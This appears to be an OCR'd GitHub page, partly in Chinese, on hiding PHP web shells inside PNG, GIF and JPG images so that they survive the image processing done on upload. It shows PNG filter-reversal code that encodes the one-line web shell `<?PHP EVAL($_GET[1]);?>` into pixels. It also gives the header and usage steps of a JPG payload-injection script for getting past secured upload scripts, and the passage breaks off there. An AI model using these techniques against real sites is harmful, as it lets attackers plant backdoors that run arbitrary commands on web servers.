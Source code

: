 ```php
		$blist[$i+3] = ($blist[$i+3] + floor($blist[$i]/2) ) %256;
	}
	return array_values($blist);
}
$p=array_merge(filter1($blist), filter3($blist));
$img = imagecreatetruecolor(32, 32);

// echo sizeof($p);
for ($y = 0; $y < sizeof($p)-3; $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   // echo $color;
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
```

这里提供一个内容为`<?PHP EVAL($_GET[1]);?>`的图片马

![](../PHP/img/poc.png)

# GIF

对比不变的图片点插入即可

# JPG

jpg.php
```php
<?php
    /*

    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed image.

    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    jpg_payload.php <jpg_name.jpg>

    In case of successful injection you will get a specially crafted image, which should be uploaded again.

    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.

    Sergey Bobrov @Black2Fan.

    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

    */

```